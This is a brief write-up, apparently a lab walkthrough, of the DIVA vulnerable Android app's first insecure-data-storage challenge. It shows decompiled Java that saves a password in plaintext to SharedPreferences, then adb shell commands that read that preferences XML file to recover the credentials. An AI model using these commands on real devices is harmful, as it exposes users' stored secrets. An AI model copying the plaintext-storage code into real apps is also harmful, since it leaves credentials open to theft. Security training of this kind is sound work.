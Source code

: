 ## Insecure Data Storage Part 1

#### The vulnerability

As shown in the code, the username and password entered into the code is being stored directly into the xml file located in the shared_prefs directory

    public void saveCredentials(View view) {
        SharedPreferences.Editor editor = PreferenceManager.getDefaultSharedPreferences((Context)this).edit();
        view = (EditText)this.findViewById(2131493000);
        EditText editText = (EditText)this.findViewById(2131493001);
        editor.putString("user", view.getText().toString());
        editor.putString("password", editText.getText().toString());
        editor.commit();
        Toast.makeText((Context)this, (CharSequence)"3rd party credentials saved successfully!", (int)0).show();
    }
    
#### The exploit

To obtain the password, 
do
      adb shell
      cd /data/data/jakhar.aseem.diva/shared_prefs
      cat  jakhar.aseem.diva_preferences.xml
in the terminal

![phone](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Insecure%20Data%20Storage/part%201/Screenshot%20from%202019-10-11%2003-14-08.png)

![terminal](https://github.com/Blahblahlolhahaha/Diva-walkthrough/blob/master/Insecure%20Data%20Storage/part%201/Screenshot%20from%202019-10-11%2003-14-08(1).png)
